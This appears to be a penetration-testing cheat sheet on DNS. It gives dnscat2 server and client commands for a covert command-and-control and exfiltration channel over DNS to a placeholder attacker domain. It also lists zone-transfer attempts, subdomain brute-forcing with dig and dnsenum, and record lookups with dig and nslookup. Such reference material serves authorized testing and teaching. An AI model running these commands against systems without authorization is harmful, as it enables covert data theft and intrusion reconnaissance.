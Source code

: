 #### Exfiltration with dnscat2
dnscat2 is designed to create an encrypted command-and-control channel over the DNS.
```
# Server side
dnscat2 --dns server=<dns-server-ip>:53

# Client side
dnscat2 <domain>
```
```bash
dig axfr @<DNS_IP> #Try zone transfer without domain
dig axfr @<DNS_IP> <DOMAIN> #Try zone transfer guessing the domain
fierce --domain <DOMAIN> --dns-servers <DNS_IP> #Will try toperform a zone transfer against every authoritative name server and if this doesn'twork, will launch a dictionary attack
```

### More info

```bash
dig ANY @<DNS_IP> <DOMAIN>     #Any information
dig A @<DNS_IP> <DOMAIN>       #Regular DNS request
dig AAAA @<DNS_IP> <DOMAIN>    #IPv6 DNS request
dig TXT @<DNS_IP> <DOMAIN>     #Information
dig MX @<DNS_IP> <DOMAIN>      #Emails related
dig NS @<DNS_IP> <DOMAIN>      #DNS that resolves that name
dig -x 192.168.0.2 @<DNS_IP>   #Reverse lookup
dig -x 2a00:1450:400c:c06::93 @<DNS_IP> #reverse IPv6 lookup

#Use [-p PORT]  or  -6 (to use ivp6 address of dns)
```

#### Automation

```bash
for sub in $(cat <WORDLIST>);do dig $sub.<DOMAIN> @<DNS_IP> | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt;done

dnsenum --dnsserver <DNS_IP> --enum -p 0 -s 0 -o subdomains.txt -f <WORDLIST> <DOMAIN>
```

#### Using nslookup

```bash
nslookup
> SERVER <IP_DNS> #Select dns server
> 127.0.0.1 #Reverse lookup of 127.0.0.1, maybe...
> <IP_MACHINE> #Reverse lookup of a machine, maybe...

# Perform DNS queries
nslookup hackviser.com

# Query a specific type of DNS record (e.g., MX record)
nslookup -type=MX hackviser.com

# Query a specific DNS server
nslookup hackviser.com <DNS_IP>
```
